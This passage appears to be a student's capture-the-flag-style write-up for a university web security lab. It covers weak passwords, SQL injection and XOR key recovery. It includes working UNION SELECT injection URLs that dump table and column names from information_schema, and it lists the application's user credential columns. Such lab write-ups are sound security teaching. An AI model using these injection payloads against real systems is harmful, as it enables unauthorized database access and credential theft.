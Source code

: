 There are 2 issues with teacher's password:
* It's not as random as it seems. With a bit of help from uncle Google we see that it's actually a beggining of microsoft office XP serial key, e.g. known and not random
* it's using only digits and lowercase characters

## Task 8: Print a list of all table names and their columns in `kbe` database

To extract table names (it gives us also standard sql tables but that does not matter, we can easily tell which belong to kbe application):
"""
https://kbe.felk.cvut.cz/index.php?offset=1 UNION SELECT table_name, 1 FROM information_schema.tables; #
"""

To extract column names:
"""
https://kbe.felk.cvut.cz/index.php?offset=1 UNION SELECT column_name, 1 FROM information_schema.columns;#
"""

This gives us all columns in the whole database. To get just columns for specific tables, we can add a `WHERE table_name = "..."` filter.

Application tables and its columns:
"""yaml
messages: 
  - username
  - base64_message_xor_key
  - date_time
codes:
  - username
  - aes_encrypt_code
users:
  - username
  - password
  - pin
  - secret
  - salt
"""

## Task 9: Derive xor key used for encoding your messages

We see that first message looks like this:
"""html
Welcome <b>repamart</b>, this is your first secret message.
"""

We also can find in a db that xored message (and base64 encoded) looks like this:
"""
PAcJPFkOURRjGlEAOhsEFD5ARA4eCVxJf0ILXUd/ERxSJgQQC39UWUBCH0IWOlURUUB/FQoBLAoCHHE=
"""
